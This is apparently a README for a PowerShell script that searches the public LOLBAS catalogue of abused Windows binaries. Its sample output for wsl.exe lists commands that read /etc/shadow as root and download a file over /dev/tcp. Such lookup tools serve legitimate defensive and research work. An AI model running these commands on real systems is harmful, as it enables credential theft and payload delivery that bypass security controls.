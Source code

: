## Uses the LOLBAS projects API to give CLI via Powershell
LOLBAS : https://lolbas-project.github.io/
LOLBAS API : https://lolbas-project.github.io/api/lolbas.json

e.g. to check for LOLBAS against 'wsl' (Windows Subsystem for Linux):

`.\get-lolbas.ps1 wsl`

```
PS C:\Users\Bazza\LOLBAS> .\get-lolbas.ps1 wsl 
get-lolbas.ps1 by @mcbazza
Searching LOLBAS for: wsl

Desc   : Executes calc.exe from wsl.exe
Command: wsl.exe -e /mnt/c/Windows/System32/calc.exe

Desc   : Cats /etc/shadow file as root
Command: wsl.exe -u root -e cat /etc/shadow

Desc   : Cats /etc/shadow file as root
Command: wsl.exe --exec bash -c 'cat file'

Desc   : Downloads file from 192.168.1.10
Command: wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
```
